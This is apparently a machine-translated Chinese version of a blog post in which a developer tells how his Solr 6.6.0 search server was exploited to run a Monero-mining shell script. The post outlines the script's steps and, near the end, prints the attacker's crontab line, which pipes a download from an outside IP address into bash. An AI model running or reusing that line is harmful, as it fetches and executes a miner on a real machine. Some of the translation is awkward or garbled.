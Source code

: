 # 我被 Sh 先生黑的那次

> 原文：<https://medium.com/swlh/the-time-i-has-hacked-by-mr-sh-583db12b7d8f>

2017 年，我零对一地开发了一个 YouTube 搜索网站，该网站使用字幕数据的索引，帮助用户浏览长视频频道。

![](img/295d9652244059a9737e17e3879f893a.png)

搜索使用 Solr-6.6.0 来存储和检索字幕数据的索引。我知道 Solr 使用了大量的 RAM，但我没想到在我的网站上线几天后，它就开始消耗我服务器 15%的 CPU。

![](img/fcd71ad66be5b1c84312f41ab550e899.png)

虽然出乎意料，但 15%的 CPU 消耗并没有引发任何危险信号。然而，如果我更加关注的话，使用量的突然增加应该会通知我一个问题。我停止关注了几个月，直到我开始收到关于 100%使用率的电子邮件。

![](img/de7032e64747ec6ca3097c4d99865cf7.png)

我不知道的是，有人利用 Solr-6.6.0 中的[漏洞在我的服务器上运行一个挖掘 Monero 的 sh 脚本，出于某种原因，他们决定将他们的哈希能力从不明显的 15% CPU 增加到严重的 100%。](https://www.mysonicwall.com/sonicalert/searchresults.aspx?ev=article&id=1096)

以下是脚本工作原理的概述:

1.  终止 9 所有消耗超过 40% CPU 的进程
2.  Kill9 任何预先存在的恶意软件(由之前运行此脚本导致)
3.  将 monero miner 下载到/tmp 并运行它
4.  创建一个 crontab 来重新下载并每分钟重新运行这个 sh 脚本。

这个剧本叫做[Sh 先生](https://gist.github.com/SlightlyCyborg/7c9c4bcd27de4311a7678e362227c8b8)，在 htop 中观看令人愤怒。每次我试图终止挖掘过程，它都会在一分钟后重新产生。我不得不离开的唯一线索是，在我的 CPU 变回空间加热器之前，一连串的 procs 直接开始运转。

我最后做了一个 htop 在整个周期中的延时截图，然后一帧一帧地分析它，直到我看到下载`mr.sh`的`curl`进程

我自己蜷缩在 sh 先生体内，最终发现它是如何不断逃避我的根除努力:`crontab`。之后我所要做的就是使用`crontab -e`编辑 crontab 文件并从其中删除`curl`调用。这是那个老太婆的样子。

```
* * * * curl [http://192.99.142.248:8220/mr.sh](http://192.99.142.248:8220/mr.sh) | bash -sh > /dev/null 2>&1
```

无论如何，这是我在 linux 服务器上发现的第一个恶意软件的故事。